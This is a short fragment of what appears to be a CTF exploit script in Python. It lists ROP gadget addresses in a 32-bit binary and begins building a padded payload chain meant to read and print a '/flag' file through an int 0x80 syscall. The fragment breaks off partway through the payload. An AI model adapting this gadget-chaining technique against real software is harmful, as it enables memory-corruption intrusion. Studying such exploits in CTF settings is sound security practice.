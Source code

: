 ```
pure_add_ebp_to_ebx = p32(0x08090d40)


# 0x0807c97d : add al, 0xe9 ; ret
pure_add_x9_to_al = p32(0x0807c97d)


# 0x08064564 : mov eax, edx ; ret
# 0x0806b05f : mov esi, edx ; ret
# 0x080a8ee3 : mov esp, ecx ; ret
pure_mov_edx_to_eax = p32(0x08064564)
pure_mov_edx_to_esi = p32(0x0806b05f)
pure_add_ecx_to_esp = p32(0x080a8ee3)

# 0x08056200 : xor eax, eax ; ret
pure_xor_eax = p32(0x08056200)

# 0x0809bfc6 : jbe 0x809bfd1 ; xor edx, edx ; pop ebx ; mov eax, edx ; pop esi ; pop edi ; ret
dirty1 = p32(0x0809bfc6)

#0x080c0cc6 : mov edi, dword ptr [edx] ; ret
dirty2 = p32(0x080c0cc6)

#0x08052424 : sub eax, edi ; ret
pure_sub_edi_from_eax = p32(0x08052424)

#0x08056f10 : mov eax, dword ptr [eax] ; ret

pure_deref_eax_to_eax = p32(0x08056f10)


# 0x08052424 : sub eax, edi ; ret

# 0x080a8c55 : inc eax ; push eax ; ret
# 0x080a8c49 : push eax ; dec esp ; ret
# 0x080832bc : push eax ; ret
pure_push_eax = p32(0x080832bc)

#0x08048b12 : push edi ; ret
pure_push_edi = p32(0x08048b12)



'''
0x080af2ce : flag
0x080bc624 : flag
0x080bd804 : flag
0x080c3ece : flag
'''


# Ok steps are:
# /flag -> galf/
# 1 push "flag"
# 2 push "/" 
# 3 set registers for read to stdout
# 4 int 80

# push flag
pay += "A"*8 #padding
pay += pure_xor_eax #eax=0
pay += dirty2 # pracically: as [edx]==0, edi=0

```